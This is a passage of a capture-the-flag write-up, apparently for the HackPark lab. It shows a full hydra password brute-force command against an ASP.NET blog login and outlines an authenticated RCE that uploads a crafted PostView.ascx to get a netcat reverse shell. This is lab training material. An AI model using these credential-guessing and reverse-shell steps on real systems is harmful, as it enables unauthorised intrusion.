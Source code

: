 Then, I'll try to attack it like this :

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.106.193 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=Q6%2Fwyy29Lyg61L12FTfXHvmaqgecBgtXUIRuiIVZJcFGpkb5tUJh93nSVJyuTgOfHtyLi9OgrKHFNl1seijcfd5djPWqvYuL6snvmS5V63eSntNGRbmzESEkm6ktoT2Dte8ynazWqXYY2eHuMMAEfJW605kE5c0VpnhTqNIq0L2E%2FkNX&__EVENTVALIDATION=gvR4CPW1DPVTT4Sm1GtfP5izsS5fJPp9bKo0SKI3XahFdVSdCQszWrKRTgWPFKxEICXK4t8lOn0TU0fheh7qDW4tv5IcHTzcIQ3ZVX8Mup8bVrtQVspuQDJhG%2B8j5lpl2zcnQjaPXY%2FfwjBMZou39tlG7J8yzxpVlOiY%2BkR3Vd0caNnr&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -vV
```
After a few seconds, with a good wordlist, it will find the password :

![HackPark Hydra Pass](/images/2021/02/HackPark_Hydra_Pass.png)

It is time to play with our Authenticated RCEs!

## Exploitation

### Getting initial shell
This [RCE](https://www.exploit-db.com/exploits/46353) seems to apply to our target and is well written, it explains step by step how to exploit it :

0. Setup `netcat` listner on our attacking box ;
1. We create a file called `PostView.ascx` and modify it with the IP and port of our attacking box ;
2. Upload it ;
3. Visit URL to trigger to remote shell.

And it worked :

![HackPark Initial Shell](/images/2021/02/HackPark_Initial_Shell.png)

Unfortunately, we are  not SYSTEM. Like we guessed during recon, we'll have to elevate our priv.
